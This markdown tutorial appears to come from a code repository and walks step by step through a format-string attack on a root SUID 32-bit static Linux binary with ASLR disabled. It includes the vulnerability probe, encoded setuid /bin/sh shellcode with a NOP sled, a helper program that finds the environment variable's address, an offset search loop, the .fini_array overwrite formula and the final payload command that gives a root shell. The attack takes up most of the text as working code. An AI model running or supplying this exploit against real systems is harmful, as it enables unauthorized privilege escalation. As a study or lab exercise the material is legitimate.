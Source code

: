 # Linux Format String Attacks

## Exploiting 32-bit SUID Static Executable With No ASLR
In this example, the root SUID executable to be exploited had no dynamic linking. The executable prints the input provided using the C printf function.

The first step is to determine if the executable is exploitable with a format string attack.

```bash
./echo $(python -c 'print "%x." * 8')
```

The above command will print eight hexadecimal values from the top of the stack if it's vulnerable to a format string attack, in this case it was vulnerable.

The next step is to determine if ASLR is enabled and if the stack is executable.

```bash
# Check if Address Space Layout Randomization (ASLR) is enabled; value of 1 or 2 means it's enabled
cat /proc/sys/kernel/randomize_va_space

# Check if the stack is executable; output will be returned if it's executable
readelf -W -l ./echo | grep 'GNU_STACK' | grep 'RWE'
```

The output returned for ASLR was 0, which means ASLR is disabled. No output was returned from readelf meaning the stack is not executable.

To get around a non-executable stack, an environment variable can be created to store the shellcode that will be executed to gain shell access.

```bash
# NOP sled is 1003 to align bits for offsets later on
# setuid plus /bin/sh
export SHELLCODE=$(python -c 'print "\x90" * 1003 + "\x89\xe7\xda\xc3\xd9\x77\xf4\x5f\x57\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x75\x61\x4b\x6b\x51\x7a\x42\x37\x56\x38\x68\x4d\x6d\x50\x43\x5a\x64\x4b\x33\x68\x6a\x39\x36\x32\x35\x36\x51\x78\x44\x6d\x61\x73\x6e\x69\x79\x77\x33\x58\x34\x6f\x31\x63\x32\x48\x73\x30\x43\x58\x54\x6f\x53\x52\x51\x79\x62\x4e\x6f\x79\x7a\x43\x43\x62\x38\x68\x77\x78\x63\x30\x43\x30\x55\x50\x36\x4f\x50\x62\x51\x79\x52\x4e\x66\x4f\x42\x53\x30\x68\x55\x50\x46\x37\x53\x63\x6d\x59\x49\x71\x7a\x6d\x4f\x70\x41\x41"')
```

To get the memory address of the shellcode environment variable, a C program was created.

```c
#include <stdlib.h>

int main(int argc, char *argv[]) {
    char *addr;
    addr = getenv(argv[1]);
    printf("%s is located at %p\n", argv[1], addr);
}
```

Getting the shellcode environment variable address.

```bash
/home/jack/envs SHELLCODE
```

The address returned was 0xbffffa1f. The program name had to be the same filename length as the vulnerable executable as the program names are stored on the stack at startup.

The next step was to determine where to write this address. As the executable was static, the choice was to use the .fini_array. The runtime linker will execute functions whose addresses are in the array.

```bash
objdump -h ./echo
```

Viewing the output showed that the .fini_array was writable and was 8 bytes with a memory address of 080c9614.

After getting the memory addresses, the offsets need to be determined.

```bash
for i in `seq 1 256`; do /home/jack/echo AAABCCCB' '$i' %'$i$'$p\n'; done
```

From the output, the offsets shown were 116 and 117.

```text
AAABCCCB 116 0x42414141
AAABCCCB 117 0x42434343
```

As the shellcode memory address converted to decimal was greater than a 32-bit integer, we needed to split the memory address into writable values. The address was split into two 16-bit integers.

The formula to determine the format string attack:

```text
# The hn is a 16-bit write
<dest_addr> + <dest_addr + 2> + %<LOB - 8>c%f_ofst$hn + %<HOB - LOB + 0x10000>c%s_ofst$hn

# 0xbffffa1f
LOB = 0xfa1f
HOB = 0xbfff

dest_addr = 0x80c9614
f_ofst = 116
s_ofst = 117
```

The following command was used to gain root shell.

```bash
/home/jack/echo $(python -c 'print "\x14\x96\x0c\x08" + "\x16\x96\x0c\x08" + "%64023c%116$hn%50656c%117$hn"')
```